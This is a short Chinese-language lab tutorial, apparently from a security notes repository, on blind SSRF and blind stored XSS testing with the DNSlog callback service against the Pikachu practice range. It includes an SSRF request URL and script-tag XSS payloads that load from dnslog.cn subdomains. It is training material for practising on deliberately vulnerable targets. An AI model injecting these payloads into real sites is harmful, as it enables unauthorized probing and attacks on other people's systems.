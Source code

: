可以看到 DNSlog 平台成功记录访问请求，证明存在 SSRF 漏洞：

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-ssrf盲打测试结果-1.png)



http://127.0.0.1/pikachu/vul/ssrf/ssrf_fgc.php?file=http://4zq94q.dnslog.cn/

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-ssrf盲打测试结果-2.png)



刷新 DNSlog 服务器的记录，发现靶场发起的访问请求记录：

​		http://www.dnslog.cn/

![dnslog平台+漏洞盲打合集](../../images/dnslog-ssrf盲打测试结果-3.png)



# XSS的盲打+实战

在实战中能真正能构成致命性损伤的 XSS 类型就是储存型 XSS

有时在留言板提交的申请是不能回显在前台而是插入了后台页面或者数据库这时我们就要用盲打dnslog验证后台xss是否会触发

```
<script src=http://ylanjt.dnslog.cn></script>
<script src=http://os1gxn.dnslog.cn></script>
os1gxn.dnslog.cn
```

